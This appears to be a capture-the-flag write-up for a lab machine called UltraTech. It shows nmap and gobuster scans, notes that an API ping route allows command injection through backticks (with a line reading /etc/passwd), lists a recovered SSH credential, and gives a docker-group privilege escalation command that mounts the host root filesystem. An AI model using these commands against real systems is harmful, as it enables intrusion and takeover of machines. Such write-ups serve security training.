







# UltraTech

## NMAP

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sS -p- -Pn 10.10.134.104
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-21 07:50 EST
Stats: 0:00:05 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 5.60% done; ETC: 07:51 (0:01:24 remaining)
Stats: 0:01:44 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 79.59% done; ETC: 07:52 (0:00:27 remaining)
Nmap scan report for 10.10.134.104
Host is up (0.090s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
8081/tcp  open  blackice-icecap
31331/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 143.61 seconds

┌──(kali㉿kali)-[~]
└─$ nmap -sCV -p 21,22,8081,31331 10.10.134.104

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-21 07:53 EST
Nmap scan report for 10.10.134.104
Host is up (0.069s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.15 seconds

```


Nodejs and apache running og a weird port.

## Gobuster

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.134.104:31331 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.134.104:31331
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 324] [--> http://10.10.134.104:31331/images/]
/css                  (Status: 301) [Size: 321] [--> http://10.10.134.104:31331/css/]
/js                   (Status: 301) [Size: 320] [--> http://10.10.134.104:31331/js/]
/javascript           (Status: 301) [Size: 328] [--> http://10.10.134.104:31331/javascript/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```


## Web


Some usernames found on the website


## API Calls






It is calling a ping command on the host machine. Maybe we can use this to get RCE.




We can also use this auth route to get some usernames and passwords







Text between backticks is executed and replaced by the output of the command (minus the trailing newline characters, and beware that shell behaviors vary when there are NUL characters in the output). That is called command substitution because it is substituted with the output of the command. So if you want to print 5, you can't use backticks, you can use quotation marks, like echo "$b" or just drop any quotation and use echo $b.

As you can see, since $b contains 5, when using backticks bash is trying to run command 5 and since there is no such command, it fails with error message.

To understand how backticks works, try running this:

$ A=`cat /etc/passwd | head -n1`
$ echo "$A"


### Passwords




r00t:n100906


We can use these credentials for ssh


## PrivEsc

```                          
OS: Linux version 4.15.0-46-generic (buildd@lgw01-amd64-038) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #49-Ubuntu SMP Wed Feb 6 09:33:07 UTC 2019
User & Groups: uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
Hostname: ultratech-prod

```
We are a member of docker user group. If docker can be run without sudo then we can get read any file in the OS


```
r00t@ultratech-prod:~$ docker ps
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
```

We can run the previous command without sudo, so we can exploit docker to escalate privledges


```
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        4 years ago         15.8MB
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# pwd
/
# cd root
# ls
private.txt
# cat private.txt
# Life and acomplishments of Alvaro Squalo - Tome I

Memoirs of the most successful digital nomdad finblocktech entrepreneur
in the world.

By himself.

## Chapter 1 - How I became successful

```